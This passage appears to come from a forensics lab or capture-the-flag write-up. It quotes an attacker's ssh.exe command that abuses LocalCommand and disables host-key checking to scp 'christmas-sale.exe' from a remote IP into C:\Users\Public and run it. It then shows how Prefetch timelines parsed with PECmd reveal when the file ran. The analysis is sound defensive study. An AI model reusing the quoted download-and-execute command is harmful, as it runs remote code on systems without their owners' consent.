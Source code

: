 Then lets examine what will happened after execute this command 
- it will execute `ssh.exe` that allow to execute local command after connection established without checking host key
- it will execute `scp` to download `christmas-sale.exe` from 17.43.12.31 as root to `C:\Users\Public\` then executes it as user revenge on the same IP address 

```
C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "StrictHostKeyChecking=no" -o "LocalCommand=scp root@17.43.12.31:/home/revenge/christmas-sale.exe c:\users\public\. && c:\users\public\christmas-sale.exe" revenge@17.43.12.31
```

>Task 3: When was this file ran on the system by the victim?

![f7ab6563984a68fc495c6899b08163e7.png](../../../_resources/f7ab6563984a68fc495c6899b08163e7.png)

To find out when an execute file was executed on the system, we can use Prefetch, Amcache or Shimcache for this but I used Prefetch for timeline file which I parsed it with [PECmd](https://www.sans.org/tools/pecmd/) from Eric Zimmerman's Tools

This tool will create 2 files (`--csv` was specified in my case), one with more details about each binary including how many times it was executed, the other one is the timeline file with contains only runtime and binary path but its easier to read the timeline since its sorted by run time which I will utilize this to find out more which binary was executed after `christmas-sale.exe` binary was executed.

![d240ace51f411e7a5d629fea1661f753.png](../../../_resources/d240ace51f411e7a5d629fea1661f753.png)
